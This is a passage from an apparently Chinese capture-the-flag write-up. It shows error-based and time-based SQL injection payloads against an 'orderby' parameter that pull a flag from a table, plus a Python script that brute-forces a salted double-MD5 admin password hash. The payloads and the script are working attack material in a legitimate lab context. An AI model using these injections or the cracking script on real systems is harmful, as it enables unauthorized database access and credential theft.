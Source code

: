 得知 flag 表名为 `fl4g`，有两列 `id,flaag`. 可通过延时注入、报错注入等方式获取数据，采用报错注入比较快速，由于报错注入有长度限制可分两次进行注出完整 flag，Payload如下:

```php
# 报错注入
orderby[title]=and(updatexml(1,concat(0x7e,(select/**/flaag/**/from/**/fl4g)),1))#
orderby[title]=and(updatexml(1,concat(0x7e,(select/**/substring((select/**/flaag/**/from/**/fl4g),20))),1))#
# 延时注入 响应 404 即为 True
orderby[if(]=substr((select/**/flaag/**/from/**/fl4g),1,1)='f',sleep(1),1))
```

获取到 flag{399e13ad-2ecb-4256-8871-c6325e6cd704}.

尝试碰撞管理员密码的脚本：

```python
# coding = utf-8 
import threading
import Queue
import hashlib

Q = Queue.Queue()

with open('passwd.txt') as file:
    for i in file:
        oldmd5 = str(hashlib.md5(str(str(hashlib.md5(str(i.split("\n")[0]).encode()).hexdigest())+'Wk3zDr').encode()).hexdigest())
        if '2f744817428b953e97ca427d116b18b7' == oldmd5:
            print(hashlib.md5(str(str(hashlib.md5(str(i.split("\n")[0]).encode()).hexdigest())+'Wk3zDr').encode()).hexdigest())
            break
        else:
            print("Fuck")
```

## RE (by pwnht)

### xx

从题目上可以联想到xxtea

![](/assets/images/move/1573441291534.png)
